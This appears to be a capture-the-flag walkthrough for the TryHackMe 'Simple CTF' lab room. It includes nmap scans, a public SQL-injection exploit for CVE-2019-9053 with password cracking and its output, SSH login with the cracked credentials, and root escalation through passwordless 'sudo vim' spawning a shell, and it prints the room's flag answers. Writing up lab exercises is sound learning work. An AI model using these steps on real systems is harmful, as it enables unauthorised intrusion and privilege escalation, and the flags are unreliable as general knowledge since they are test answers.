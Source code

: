 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?


```
run nmap scan on machine using -sC -sV 
```
```json
nmap -sC -sV -oN nmap/initial 10.10.208.204
```


```
answer: 2
```

# 2. What is running on the higher port?

```
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```json
nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
```
```
I ftp into 10.10.208.204 and found ForMitch.txt and grabbed it to my host using get
```

```
answer: ssh
```

# 3. What's the CVE you're using against the application? 

```
searched for exploits against the web servers host template version (2.2.8) which is usually found at the bootom of websites and found CVE-2019-9053
```

```
answer: CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
answer: SQLi
```

# 5. What's the password?

```
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```json
python3 exploit.py -u http://10.10.208.204/simple --crack -w /your/wordlist.txt 
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
answer: secret
```

# 6. Where can you login with the details obtained?
```json
ssh mitch@$ip 
password is secret
```
```
answer: ssh
```

# 7. What's the user flag?

```
we can run find / -name user* 2>/dev/null to search the computer for the flag if its not located in the home directory otherwise we can cat the file when found. cat /home/mitch/user.txt
```

```
Answer:"G00d j0b, keep up!"
```

# 8. Is there any other user in the home directory? What's its name?

```
if we cd ../ to go back to the parent directory we can see a user folder of someone named "sunbath"
```

```
Answer: sunbath
```

# 9. What can you leverage to spawn a privileged shell?

```
the first thing i do when im attempting to privesc is running sudo -l to see what im able to run as root. in this case we can run /usr/bin/vim as sudo without needing a password. using gtfobins we can see that using vim we can spawn a shell however because this box doesnt need a password for sudo vim we can spawn and leverage this vulnerability.
```

```
Answer: vim
```

# 10. What's the root flag?

```json
running sudo vim -c ':!/bin/sh' will now give us root privilidges on the system 
```
```
due to the user "mitch" being able to run vim as sudo without a password. root flags are usually stored in /root however if not we can always use find to search for the file. In this cate the flag is stored in /root/root.txt so lets cat the file and finish the box!
```

```
Answer: W3ll d0n3. You made it!
```

```json
Congrats u have completed Simple CTF!
```

